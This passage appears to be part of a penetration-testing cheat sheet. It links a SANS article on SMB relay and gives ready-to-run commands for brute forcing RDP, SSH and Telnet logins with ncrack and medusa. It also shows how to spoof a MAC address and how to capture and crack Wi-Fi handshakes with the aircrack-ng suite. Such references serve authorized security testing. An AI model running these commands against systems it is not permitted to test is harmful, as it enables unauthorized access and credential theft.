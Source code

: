 ### SMBRelayx.py

https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python/?utm_medium=Social&utm_source=Twitter&utm_content=SANSPenTest+BLOG+SMB+Relay+Demystified&utm_campaign=SANS+Pen+Test

## Brute Force Techniques

RDP Brute
```
	ncrack -u administrator -P 500-worst-passwords.txt -p 3389 10.212.50.21
```

SSH Brute
```
	medusa -M ssh -C /usr/share/wordlists/ssh.lst -H 22.txt -T 10| grep SUCCESS |tee medusa-results.txt
```

Telnet Brute
```
	medusa -M telnet -C /usr/share/wordlists/telnet.lst -H 23.txt -T 10 -t 3| grep SUCCESS |tee medusa-results.txt
```

## Wireless Quick Reference

Place wlan0 in monitor mode
```
    airmon-ng check kill
    airmon-ng start wlan0
```

Change virtual monitor mac
```
    ifconfig wlan0mon down
    macchanger -m xx:yy:xx:77:88:99 wlan0mon
    ifconfig wlan0mon up
```

Run airodump
```
    airodoump-ng wlan0mon
```

Limit to bssid (ensure to select channel and bssid)
```
    airodump-ng -c 8 --bssid 00:00:00:00:00 -w capture wlan0mon
```

Attempt crack (change bssid as appropriate)
```
    aircrack-ng -b 00:00:00:00:00:00 capture-01.cap
```

Injection test
```
    aireplay-ng --fakeauth 0 -e "ESSID" -a 00:00:00:00:00:00 wlan0mon
```
